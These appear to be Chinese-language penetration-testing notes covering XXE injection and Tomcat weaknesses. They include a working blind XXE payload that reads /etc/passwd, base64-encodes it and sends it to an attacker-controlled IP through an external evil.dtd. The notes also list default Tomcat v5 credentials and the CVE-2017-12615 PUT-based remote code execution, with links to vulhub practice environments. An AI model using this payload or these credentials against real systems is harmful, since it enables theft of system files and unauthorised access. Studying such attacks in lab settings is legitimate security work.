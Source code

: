 - XXE (XML External Entity Injection 外部实体注入) 

- libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。

- 无回显的Blind XXE攻击：利用url带出数据，限制字数。

  ```
  漏洞触发点：
  <!DOCTYPE ANY [ 
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % dtd SYSTEM "http://123.206.29.105/evil.dtd">
  %dtd;
  %send;
  ]>

  VPS evil.dtd文件：
  <!ENTITY % all
  "<!ENTITY &#x25; send SYSTEM 'http://123.206.29.105/?%file;'>"
  >
  %all;
  ```

- Tomcat：

  - 弱口令：**v5版本**默认有两个角色：tomcat和role1，其中账号both、tomcat、role1的默认密码都是tomcat，不过不具备部署应用的权限，默认需要manager权限才能够直接部署war包；v6-9均无默认角色及账号，且manager页面只允许本地IP访问。[http://vulhub.org/#/environments/tomcat/tomcat8](http://vulhub.org/#/environments/tomcat/tomcat8)
  - 远程代码执行：2017年9月19日公布的CVE-2017-12615，前提是Tomcat启用了 HTTP **PUT** 请求方法。[http://vulhub.org/#/environments/tomcat/CVE-2017-12615](http://vulhub.org/#/environments/tomcat/CVE-2017-12615)

